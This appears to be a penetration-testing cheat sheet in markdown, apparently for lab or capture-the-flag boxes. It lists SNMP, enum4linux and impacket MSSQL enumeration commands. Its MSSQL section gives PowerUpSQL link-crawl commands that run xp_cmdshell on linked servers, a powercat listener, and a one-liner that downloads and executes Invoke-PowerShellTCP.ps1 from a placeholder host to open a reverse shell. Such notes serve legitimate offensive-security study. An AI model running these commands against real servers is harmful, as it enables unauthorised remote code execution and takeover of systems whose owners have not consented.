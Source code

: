 ### SNMP

```bash
snmp-check ${box_ip}
```

### enum4linux

```bash
enum4linux -a ${box_ip} | tee ${loc}/2-enum/enum4linux.md
```

### MSSQL Client

```bash
${imp_dir}/mssqlclient.py USER@${box_ip}
${imp_dir}/mssqlclient.py USER@${box_ip} -windows-auth
```

### MSSQL Enum

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-Server/

```
Get-SQLInstanceDomain

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'whoami\'" | ft
powercat -l -v -p 443 -t 1000

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'powershell iex (New-Object Net.WebClient).DownloadString(\'\'http://x.x.x.x/Invoke-PowerShellTCP.ps1\'\')\'" | ft
```

### Heidi SQL

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-HeidSQL/